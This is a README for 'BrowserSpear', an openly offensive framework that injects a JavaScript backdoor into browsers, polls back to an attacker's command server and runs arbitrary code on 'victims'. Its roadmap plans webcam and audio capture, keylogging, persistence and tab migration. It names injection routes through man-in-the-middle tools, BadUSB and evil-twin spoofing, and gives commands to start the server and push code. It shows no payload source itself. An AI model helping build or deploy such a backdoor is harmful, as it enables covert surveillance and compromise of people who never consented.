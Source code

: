 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (spear.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Prompt (nodejs-library: https://www.npmjs.com/package/prompt) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets prompt uglify-js </pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- if necessairy ask to clean port (if something is running on it, maybe pinpoint it) (maybe make bash script starter that checks this?)
- (DONE) For testing, if the servers root is requested, return the spear.html file
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- (DONE) interface should take commands to be sent to victims.
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- Module system with javascript-scripts in files that are parsed into onliners (maybe minified) and then send. Only knowledge is for returning data with socket.send() and developing a way to also have modules for server-side (retrieval of loot) (Idea: support "file"-tag and "stream-tag" and "data"-tag)
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of spear.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks
- History of commands (up and down arrow key) -> prompt library
- Guide with modules, builtup and options for loot retrieval
- modules (attacks) moest be able to run async in sessions (also multiple clients)
- handler option in modules?
- fingerprint maybe module,too heavy,  just only a number?

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
